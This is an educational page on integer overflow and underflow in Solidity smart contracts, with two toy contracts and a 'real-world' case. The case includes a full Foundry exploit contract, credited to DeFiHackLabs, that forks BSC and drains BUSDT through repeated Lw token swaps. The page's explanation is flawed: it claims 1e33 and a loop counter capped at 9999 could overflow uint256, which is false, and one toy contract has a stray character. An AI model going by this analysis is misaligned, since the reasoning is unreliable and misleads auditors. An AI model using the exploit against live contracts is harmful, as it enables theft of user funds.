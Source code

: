 ## Integer overflow/underflow
This vulnerability was first identified during the attack on BEC tokens [1]. It occurs when the result of a calculation exceeds the maximum or minimum limit of the variable's data type, making it impossible to accurately represent the value. This issue is particularly prevalent in smaller data types. For instance, when a balance reaches the upper limit of  2^256 ,  it resets to zero. Furthermore, division operations on integers in Solidity can introduce rounding errors, which may result in unexpected discrepancies in calculations that require high precision [2]. While these issues may not directly constitute an integer overflow or underflow vulnerability, they can lead to logical flaws in the business logic of smart contracts.
## Toy Example
```Solidity
pragma solidity ^0.7.0;

contract OverflowExample {
    uint8 public maxValue = 255; // Maximum value for uint8 (2^8 - 1)

    function add(uint8 _value) public returns (uint8) {
        uint8 result = maxValue + _value; // ⚠️ This line may cause an Overflow
        return result;
    }
}
```
```Solidity
pragma solidity ^0.7.0;

contract UnderflowExample {
    uint8 public minValue = 0; // Minimum value for uint8

    function subtract(uint8 _value) public returns (uint8) {
        uint8 result = minValue - _value; // ⚠️ This line may cause an Underflow
        return result;~
    }
}
```


## Real-World Example
Date Identified: 08/07/2024

Lost: ~7K USD

Highlighted Line: Lw.transferFrom(address(Lw), address(this), 1_000_000_000_000_000_000_000_000_000_000_000);
 
•	Potential Integer Overflow:
o	The value 1_000_000_000_000_000_000_000_000_000_000_000 is extremely large and could exceed the storage capacity of uint256, especially if the Lw contract does not implement overflow protection.
o	If the Lw contract is written in an older version of Solidity (prior to 0.8.0) or does not use a library like SafeMath, it may allow an overflow to occur, causing the value to "wrap around" to a smaller number, effectively bypassing intended limits.

Highlighted Line: while (i < 9999) {
    swap_token_to_token(address(Lw), address(BUSDT), 800_000_000 ether);
    i++;
}
 
•	Risk of Integer Overflow on i:
o	The variable i is incremented in a loop up to 9999 iterations. If there is an overflow in i (e.g., if i exceeds uint256 storage capacity), the loop may behave unexpectedly, causing unintended or infinite execution.
•	Potential Overflow in Token Amount:
o	The value 800_000_000 ether is passed to the swap_token_to_token function. If this value is further processed in the Lw or BUSDT contracts without overflow protection, it could result in unintended behavior or manipulation of balances.

Below is the smart contract used in the exploitation of the identified vulnerabilities [3].
```Solidity 
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./../interface.sol";

// @KeyInfo -- Total Lost : ~7K USD
// TX : https://app.blocksec.com/explorer/tx/bsc/0x96a955304fed48a8fbfb1396ec7658e7dc42b7c140298b80ce4206df34f40e8d
// Attacker : https://bscscan.com/address/0x56b2d55457b31fb4b78ebddd6718ea2667804a06
// Attack Contract : https://bscscan.com/address/0xfe7e9c76affdba7b7442adaca9c7c059ec3092fc
// GUY : https://x.com/0xNickLFranklin/status/1810245893490368820

contract Exploit is Test {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);
    IERC20 Lw = IERC20(0xABC6e5a63689b8542dbDC4b4f39a7e00d4AC30c8);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    address Hackcontract;

    function setUp() external {
        cheats.createSelectFork("bsc", 40_287_544);
        deal(address(BUSDT), address(this), 0);
    }

    function testExploit() external {
        emit log_named_decimal_uint("[Begin] Attacker BUSDT before exploit", BUSDT.balanceOf(address(this)), 18);
        Money Hackcontract = new Money();
        emit log_named_decimal_uint("[End] Attacker BUSDT after exploit", BUSDT.balanceOf(address(this)), 18);
    }
}

contract Money is Test {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);
    IPancakePair Pair = IPancakePair(0x88fF4f62A75733C0f5afe58672121568a680DE84);
    IERC20 Lw = IERC20(0xABC6e5a63689b8542dbDC4b4f39a7e00d4AC30c8);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IPancakeRouter router = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    address owner;

    constructor() {
        owner = msg.sender;
        Attack();
    }

    function Attack() public {
        Lw.transferFrom(address(Lw), address(this), 1_000_000_000_000_000_000_000_000_000_000_000);
        uint256 i = 0;
        while (i < 9999) {
            swap_token_to_token(address(Lw), address(BUSDT), 800_000_000 ether);
            i++;
        }
        BUSDT.transfer(msg.sender, BUSDT.balanceOf(address(this)));
    }

    function swap_token_to_token(address a, address b, uint256 amount) internal {
        IERC20(a).approve(address(router), type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = address(a);
        path[1] = address(b);
        router.swapExactTokensForTokensSupportingFeeOnTransferTokens(amount, 0, path, address(this), block.timestamp);
    }
}
``` 
## References 
[1] Huashan Chen, Marcus Pendleton, Laurent Njilla, and Shouhuai Xu. A survey on ethereum systems security: Vulnerabilities, attacks, and defenses.
ACM Computing Surveys (CSUR), 53(3):1–43, 2020.

[2] Christof Ferreira Torres, Julian Schütte, and Radu State. Osiris: Hunting for integer bugs in ethereum smart contracts. In Proceedings of the 34th
annual computer security applications conference, pages 664–676, 2018.

[3] https://github.com/SunWeb3Sec/DeFiHackLabs
